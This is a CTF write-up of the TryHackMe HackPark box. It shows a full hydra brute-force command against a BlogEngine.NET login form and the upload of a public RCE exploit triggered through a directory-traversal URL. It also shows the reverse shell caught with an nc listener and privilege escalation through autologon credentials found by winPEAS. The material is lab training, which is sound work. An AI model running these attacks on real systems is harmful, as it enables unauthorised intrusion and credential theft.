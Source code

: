 ```yaml
---
layout: single
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
classes: wide
categories: THM
tags:
 - Bruteforcing
 - Privesc
 - OSCP
 - Hydra
 - winPEAS
---
```


This time we will be resolving the [HackPark](https://tryhackme.com/room/hackpark) room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesting learning path so it will be very useful for our OSCP journey.

## Room info

![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info"){: .align-center}

## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I'll anticipate that we have ports **80** and **3389** open.

First of all, taking a look of the website ```http://10.10.203.246``` we can see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page"){: .align-center}

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu.

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu"){: .align-center}

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a typical login form for username and password inputs.

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login"){: .align-center}

As we know, the room description says we will be using hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**. 

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through bruteforcing with Hydra.

## Exploiting

For the tool to work, we need to specify the following information:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form sends the request.

The network tab will show us the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following parameters:

- Username: ```usertest```.
- Password: ```passtest```.

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using **POST** method to make the request, and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also get the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS parameters in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So in this case, we replace **usertest** for ```^USER^``` and **passtest** for ```^PASS^```.

```
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```

**Full command**

After getting all the information, the full command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we launch hydra and in a couple of minutes we get the password for the user admin.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is find the CMS version, for this we navigate to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version"){: .align-center}

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploit"){: .align-center}


There is indeed an exploit available for our CMS version. Lets take a look to the one named [BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353) and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit"){: .align-center}

- Set a listener with the same parameters.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostView.ascx```.
- In the CMS, navigate to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1"){: .align-center}

- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2"){: .align-center}

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3"){: .align-center}

- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a quick system scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. Then we will take a moment to analyze the output. 

Scrolling through, we reach the following section that looks interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials"){: .align-center}

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step will be checking this using RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access"){: .align-center}

That's it! Now we have Administrator privileges and access to the root flag in the desktop.